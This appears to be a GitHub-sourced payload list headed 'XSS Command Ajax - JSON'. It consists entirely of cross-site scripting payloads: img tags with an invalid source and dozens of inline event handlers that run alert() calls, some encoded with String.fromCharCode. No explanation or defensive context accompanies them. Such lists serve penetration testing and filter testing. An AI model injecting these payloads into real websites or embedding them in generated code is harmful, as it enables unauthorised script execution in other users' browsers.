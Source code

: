 ## XSS Command Ajax - JSON

    <img src=x onerror=alert(1);>
    <img src=x onerror=alert(1)>
    <img src=x onerror=alert("1");>
    <img src=x onerror=alert("1")>
    <IMG SRC=x onload="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onafterprint="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onbeforeprint="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onbeforeunload="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onerror="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onhashchange="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onload="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onmessage="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ononline="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onoffline="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onpagehide="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onpageshow="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onpopstate="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onresize="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onstorage="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onunload="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onblur="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onchange="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x oncontextmenu="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x oninput="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x oninvalid="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onreset="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onsearch="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onselect="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onsubmit="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onkeydown="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onkeypress="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onkeyup="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onclick="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ondblclick="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onmousedown="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onmousemove="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onmouseout="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onmouseover="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onmouseup="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onmousewheel="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onwheel="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ondrag="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ondragend="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ondragenter="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ondragleave="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ondragover="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ondragstart="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ondrop="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onscroll="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x oncopy="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x oncut="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onpaste="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onabort="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x oncanplay="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x oncanplaythrough="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x oncuechange="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ondurationchange="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onemptied="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onended="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onerror="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onloadeddata="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onloadedmetadata="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onloadstart="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onpause="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onplay="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onplaying="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onprogress="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onratechange="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onseeked="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onseeking="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onstalled="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onsuspend="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ontimeupdate="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onvolumechange="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onwaiting="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x onshow="alert(String.fromCharCode(88,83,83))">
    <IMG SRC=x ontoggle="alert(String.fromCharCode(88,83,83))">
